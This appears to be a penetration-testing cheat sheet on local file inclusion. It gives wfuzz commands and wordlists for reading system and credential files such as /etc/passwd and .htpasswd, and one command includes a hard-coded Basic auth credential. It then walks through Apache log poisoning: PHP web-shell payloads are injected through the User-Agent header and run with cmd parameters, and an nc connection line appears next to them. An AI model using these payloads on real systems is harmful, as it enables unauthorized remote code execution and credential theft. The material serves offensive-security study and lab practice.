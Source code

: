 ## Fuzzing with wordlists

{% code overflow="wrap" fullWidth="true" %}
```bash
# BEST DICTIONARIES / WORDLISTS
/usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt
mail-masta-wordlist.txt
Fuzzing/LFI/LFISuite-pathtotest-huge.txt
# Add /etc/apache2/.htpasswd to our custom wordlists

wfuzz -c -t 400 --hc=404 -u "http://.../fetchmeafile.php?file=FUZZ" -w dic.txt -H "Authorization: Basic anVsaXVzLmI6d0pXbTRDZ1YyNg==" --hw 39,57

# -w $DICT --> dictionary with typical system files (/etc/passwd and so on)
# -H $HEADER --> e.g. 'Cookie: PHPESSID=sdflkjsd' IMPORTANT FOR AUTHENTICATED PAGES
# --hw --> hide some responses that are useless or not found
```
{% endcode %}

## Fuzzing web parameters

[https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz\_For\_Web](https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web)

{% code overflow="wrap" fullWidth="true" %}
```bash
wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt  --hc 404 http://website.com/secret.php?FUZZ=something
```
{% endcode %}

## LFI to RCE

### Log poisoning

| [https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/](https://www.hackingarticles.in/rce-with-lfi-and-ssh-log-poisoning/)                                     |
| ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-1) |

{% code overflow="wrap" fullWidth="true" %}
```bash
/var/log/auth.log
/var/log/vsftpd.log
/var/log/apache2/access.log
/var/log/mail.log

########## APACHE LOG POISONING  --- #Poison the log with a request
- Find LFI and access /var/log/apache2/access.log successfully
- Burp -> use original GET/POST e.g. index.php?page=file.php ->  modify User-Agent -> Mozilla/5.0 <?php echo system($_GET['cmd']); ?> -> delete Referer header before sending the request
- Burp -> delete User-Agent header -> access /var/log/apache2/access.log&cmd=id
# Windows -> possible paths
C:\xampp\apache\logs
############# ANOTHER OPTION
User-Agent: Mozilla/5.0 <?php ... ?>
# Next file inclusion to the log w/o the User-Agent on the request
# Poisoning on Windows, we should understand that the log files are located in application-specific paths like
C:\xampp\apache\logs\
There are other technologies such as JSP, ASP and Node.js that might ve vulnerable to LFI. In that case, the language code for the payloadwould change.
nc -nv $TARGET_IP $TARGET_PORT
(UNKNOWN) ... open
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?> 
```